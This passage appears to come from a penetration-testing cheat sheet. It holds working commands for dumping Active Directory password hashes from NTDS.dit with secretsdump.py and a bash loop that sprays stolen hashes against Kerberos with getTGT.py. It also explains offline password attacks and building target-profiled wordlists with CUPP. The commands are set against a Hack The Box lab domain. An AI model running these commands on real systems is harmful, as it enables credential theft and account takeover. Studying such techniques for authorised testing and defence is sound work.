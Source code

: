 OR

```
root@kali:pythonsecretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit -hashes lmhash:nthash LOCAL -output hashes-output 
```

**Brute forcing a user hash given a list of users and hashes by performing retrieving TGTs \[Active Directory]**

Use the script below to iterate through the usernames and hashes. GetTGT.py is within impacket

```
#!/bin/bash 
#Request the TGT with hash

for i in $(cat wordlists/valid.usernames) 
do 
        for j in $(cat wordlists/hashes.ntds) 
        do 
                echo trying $i:$j 
                echo 
                getTGT.py htb.local/$i \-hashes $j:$j    
                echo 
                sleep 5 
        done 
done
```

### Offline Password Attacks

**Definition** Offline password attacks attempt to discover passwords from a captured database or captured packet scan. For example, when attackers hack into a system or network causing a data breach, they can download entire databases. They then perform offline attacks to discover the passwords contained within these downloaded databases.

#### Creating Wordlists

Building a custom wordlist can be particularly useful if you have gathered a lot of information about your target. Common words, catchphrases, and even personal information from staff members can be combined into a dictionary that will provide a greater chance of cracking passwords than a standard dictionary or generic wordlist.

**CUPP**

CUPP is an automatic and interactive tool written in Python for creating custom wordlists. For instance, if you know some details about a specific target, such as their birthdate, pet name, company name, etc., this could be a helpful tool to generate passwords based on this known information. CUPP will take the information supplied and generate a custom wordlist based on what's provided. There's also support for a 1337/leet mode, which substitutes the letters a, i,e, t, o, s, g, z  with numbers. For example, replace a  with 4  or i with 1.

**Creating a wordlist tied to a specific profile or individual target**

```
root@kali:python cupp.py -i
Follow the prompt and enter the details of the target to 
generate the wordlist
```
